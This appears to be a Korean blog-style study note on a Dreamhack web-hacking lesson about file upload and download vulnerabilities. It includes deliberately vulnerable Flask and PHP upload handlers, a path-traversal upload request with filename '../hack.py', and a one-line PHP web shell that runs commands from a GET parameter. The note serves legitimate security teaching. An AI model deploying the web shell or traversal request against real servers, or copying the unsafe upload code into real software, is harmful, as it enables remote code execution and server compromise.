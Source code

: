 ```yaml
---
layout : single
title : "STAGE8. File Vulnerability (1)"
tag: [dreamhack, webhacking]
sidebar:
    nav: "docs"
---
```


# 드림핵 웹 ServerSide : File Vulnerability (1)

-  [x] 웹 셸 업로드 실습
-  [x] 악성 파일 업로드 실습


## ServerSide : File Vulnerability

이미지, 문서 등 파일 공유 서비스를 개발할 때, 이용자가 업로드한 파일을 데이터베이스가 아닌, 서버의 파일시스템에 저장하는 것이 개발하기 더 쉬복, 관리 효율이 높다. 그러나, 이러한 방식은 임의 파일이 다운로드 되는 취약점이나, 악성 웹셸 파일을 업로드하여 임의 코드를 실행할 수 있는 취약점을 발생시키기도 한다. File Vulnerability는 파일 업로드 취약점인  File Upload Vulnerability와 다운로드 취약점인 File Download Vulnerability로 나뉜다. 

- File Upload Vulnerability : 파일 시스템 상 임의 경로에 원하는 파일을 업로드하거나, 악성 확장자를 갖는 파일을 업로드할 수 있을 때 발생한다. 원하는 시스템 커맨드를 실행하는 워격 코드 실행 취약점을 유발할 수 있다

- File Download Vulnerability : 공격자는 웹 서비스의 파일 시스템에 존재하는 임의 파일을 다운로드 받을 수 있으며, 이에는 패스워드 파일, 데이터베이스 백업본 등이 포함되어, 민감한 정보의 탈취 및 2차 공격 수행이 가능하다

## File Upload Vulnerability
웹 서비스를 통해 이용자의 파일을 서버의 파일 시스템에 업로드하는 과정에서 발생하며, 이용자가 업로드될 파일의 이름을 임의로 정할 수 있을 때 발생한다. 파일 이름에 이용자가 입력한 문자열을 그대로 사용하거나, 이용자의 이메일, 닉네임 등을 포함시키는 등의 소스 코드 패턴이 이러한 취약점을 발생시킨다. 

### Path Traversal
파일 업로드를 허용하는 대개의 서비스는 보안을 위해 특정 디렉토리에만 업로드를 허용한다. 이러한 제한이 없다면, 악의적인 이용자가 웹 서버의 소스 코드나 서버에 있는 중요 시스템 파일을 덮어쓸 위험이 있다. Path Traversal은 업로드에 존재하는 이러한 제약을 우회하여, 임의 디렉토리에 파일을 업로드할 수 있는 취약점을 뜻한다.<br>

아래 코드는 Path Traversal 취약점이 있는 코드이다

```python
from flask import Flask, request
app = Flask(__name__)
@app.route('/fileUpload', methods = ['GET', 'POST'])
def upload_file():
	if request.method == 'POST':
		f = request.files['file']
		f.save("./uploads/" + f.filename)
		return 'Upload Success'
	else:
		return """
		<form action="/fileUpload" method="POST" enctype="multipart/form-data">
			<input type="file" name="file" />
			<input type="submit"/>
		</form>
		"""
if __name__ == '__main__':
	app.run()
```

/fileUpload는 POST 요청을 받으면 클라이언트가 전송한 파일을 ./uploads에 저장한다. 이 때 이용자가 입력한 파일 이름 f.file을 그대로 사용하기 때문에, Path Traversal에 취약하다. 예를 들어, 공격자가 ../와 같은 메타문자를 사용한다면, uploads를 벗어나 상위 디렉토리에 파일 업로드할 수 있다.<br>

**정상적인 파일 업로드 HTTP 요청**

```
POST /fileUpload HTTP/1.1
Host: storage.dreamhack.io
Origin: https://storage.dreamhack.io
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary20y3eoLVSNf9Ns5i
------WebKitFormBoundary20y3eoLVSNf9Ns5i
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/plain
upload test !
------WebKitFormBoundary20y3eoLVSNf9Ns5i--
```

<br>
위와 같은 정상적인 파일 업로드 HTTP 요청이 전송되면, 아래와 같이, uploads 폴더에 test.txt가 생성된다

```
$ ls -lR
-rw-r--r--  1 dreamhack  staff  461  1 30 21:52 app.py
drwxr-xr-x  3 dreamhack  staff   96  1 30 21:31 uploads
./uploads:
total 8
-rw-r--r--  1 dreamhack  staff   13  1 30 21:31 test.txt
```


**악의적인 파일 업로드 HTTP 요청**

```
POST /fileUpload HTTP/1.1
Host: storage.dreamhack.io
Origin: https://storage.dreamhack.io
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary20y3eoLVSNf9Ns5i
------WebKitFormBoundary20y3eoLVSNf9Ns5i
Content-Disposition: form-data; name="file"; filename="../hack.py"
Content-Type: text/plain
[malicious file content]
------WebKitFormBoundary20y3eoLVSNf9Ns5i--
```

<br>
위와 같은 악의적인 파일 업로드 HTTP 요청이 전송되면, 아래와 같이, app.py와 같은 디렉토리에 hack.py가 생성된다. hack.py가 app.py를 덮는다면, 서버가 재실행될 때 임의 파이썬 코드를 실행할 수 있을 것이다

```
$ ls -lR
-rw-r--r--  1 dreamhack  staff  461  1 30 21:52 app.py
-rw-r--r--  1 dreamhack  staff  431  1 30 22:12 hack.py
drwxr-xr-x  3 dreamhack  staff   96  1 30 21:31 uploads
./uploads:
total 8
-rw-r--r--  1 dreamhack  staff   13  1 30 21:31 test.txt
```

---

### 악성 파일 업로드
악성 파일 업로드 취약점은 이용자가 파일을 업로드할 때 이를 제대로 검사하지 않아서 발생하는 취약점을 뜻한다. 

##### 웹 셸
웹 서버는 .php .jsp, .asp 와 같은 확장자의 파일을 CGI(Common Gatewqy Interface)로 실행하고, 그 결과를 이용자에게 반환한다. 

```
<FilesMatch ".+\.ph(p[3457]?|t|tml)$">
    SetHandler application/x-httpd-php
</FilesMatch>
```

이는 Apache 설정 파일로, 이용자가 요청한 파일의 확장자가 정규표현식을 만족하면, x-httpd-php로 핸들링하게 한다. x-httpd-php는 PHP 엔진으로, 요청한 파일을 실행하고 결과를 반환하며, .php, .php3, .phtml 의 확장자 파일들이 위 해당 정규표현식을 만족한다. <br><br>
위와 같은 방법으로 php 파일을 핸들링할 경우, 공격자가 임의의 php 파일을 .php 확장자로 업로드하고, GET 요청을 보낼 수 있다면 CGI에 의해 해당 코드가 실행되도록 할 수 있다.

##### 악의적인 웹 리소스
웹 브라우저는 파일의 확장자나 응답의 Content-Type에 따라 요청을 다양하게 처리한다. 요청한 파일의 확장자가 .html 또는, 반환된 Content-Type의 헤더가 text/html일 경우, 응답은 HTML 엔진으로 처리된다. 또한, 파일의 확장자가 .png, .jpg 등의 이미지 확장자이거나, Content-Type이 image/png일 경우에는 이미지로 렌더링 된다. <br><Br>
만약 공격자가 서버에 exploit.html을 업로드하고, 이에 접근하는 URL이 https:// dreamhack.io/uploads/exploit.html 이라면, 브라우저는 이를 HTML로 해석한다. 따라서 exploit.html에 악의적인 스크립트를 삽입하면, Cross-Site-Scripting (XSS) 공격으로 이어질 수 있습니다.

---

### 악성 파일 업로드 실습

악성 파일 업로드 모듈 구성 코드

```php
<?php
if(!empty($_FILES['file'])){
  $filename = "user_uploaded_file_".time();
  $ext = pathinfo($_FILES['file']['name'], PATHINFO_EXTENSION);
  $path = "./uploads/" . $filename . "." . $ext;
  
  if(move_uploaded_file($_FILES['file']['tmp_name'], $path)) {
    return true; // upload success
  } else {
    return false; // upload fail
  }
}
?>
```

파일 이름을 임의의 파일명 + . + 확장자 로 생성하므로, Path Traversal을 이용한 공격은 불가능하다. 하지만, 이용자가 올린 확장자를 별다른 검사 없이 사용하므로 php 웹셸을 업로드할 수 있다. 또한, html 파일을 업로드하여 Stored XSS를 수행할 수도 있다.<br>

##### 웹 셸 업로드

```php
<?php
  system("ls");
  system($_GET[x]);
?>
```

##### Stored XSS 시도

악성 파일 업로드

<img src = "/images/webbackground/12.png"><br>

업로드 된 파일 실행

<img src = "/images/webbackground/13.png"><br>